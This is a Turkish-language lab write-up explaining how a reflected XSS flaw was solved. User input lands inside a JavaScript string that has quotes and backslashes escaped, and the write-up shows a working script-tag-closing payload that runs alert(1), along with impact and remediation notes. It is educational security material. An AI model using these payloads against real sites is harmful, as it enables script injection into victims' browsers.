




# Reflected XSS into a JavaScript string with single quote and backslash escaped

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda arama parametresindeki değer response içinde hem HTML başlığına hem de bir JavaScript string'ine yansıyordu. Uygulama JavaScript string'i içindeki tek tırnak ve backslash karakterlerini escape ettiği için klasik string kırma payload'ı çalışmadı. Ancak payload ile mevcut `<script>` bloğunu kapatıp yeni bir `<script>` bloğu açınca tarayıcı bunu HTML parser seviyesinde yorumladı ve `alert(1)` çalıştı.

## 3. Exploitation Steps

1. Blog sayfasındaki arama alanına normal bir değer girip arama isteğini oluşturdum.


2. Burp Suite üzerinde response'u incelediğimde `search` parametresindeki değerin JavaScript içinde `searchTerms` değişkenine tek tırnaklı string olarak yazıldığını gördüm.

```html
<script>
  var searchTerms = 'test123';
  document.write('');
</script>
```



3. Önce tek tırnakla string dışına çıkmayı denedim:

```javascript
'; alert(1); //
```

Uygulama tek tırnak karakterini backslash ile escape ettiği için payload response içinde şu hale dönüştü:

```javascript
var searchTerms = '\'; alert(1); //';
```

Bu durumda tek tırnak string'i kapatmadı; string'in parçası olarak kaldı ve JavaScript çalışmadı.



4. Tek tırnak ve backslash escape edildiği için JavaScript string'ini kırmak yerine mevcut `<script>` tag'ini kapatan şu payload'ı kullandım:

```html
</script><script>alert(1)</script>
```

Payload response içinde şu yapıya dönüştü:

```html
<script>
  var searchTerms = '</script><script>alert(1)</script>';
  document.write('');
</script>
```

HTML parser ilk `</script>` ifadesini gerçek script kapanışı olarak yorumladı. Ardından gelen `<script>alert(1)</script>` yeni bir script bloğu olarak çalıştı. Kalan JavaScript parçası artık bozulmuş olsa da alert çoktan tetiklenmişti.



5. Payload çalışınca lab solved durumuna geçti.



## 4. Impact

Saldırgan, kurbana özel hazırlanmış bir URL göndererek kullanıcının tarayıcısında JavaScript çalıştırabilir. Açık, kullanıcı girdisinin JavaScript string bağlamına yansıtılması ve `<script>` tag kapanışının engellenmemesinden kaynaklanır. Başarılı bir saldırı sayfa içeriğini değiştirme, kullanıcı adına işlem yaptırma veya hassas bilgileri hedef alma gibi sonuçlara yol açabilir.

## 5. Remediation

Kullanıcı kontrollü veri JavaScript string'i içine doğrudan yerleştirilmemelidir. Veri JavaScript bağlamında kullanılacaksa güvenli JavaScript encoding uygulanmalı ve özellikle `</script>` gibi script bloğunu kapatabilecek diziler etkisiz hale getirilmelidir. Mümkünse veriler inline script içinde değil, güvenli JSON serialization ve güvenli DOM API'leri üzerinden kullanılmalıdır. Ek olarak Content Security Policy ile inline script çalıştırılması sınırlandırılabilir.
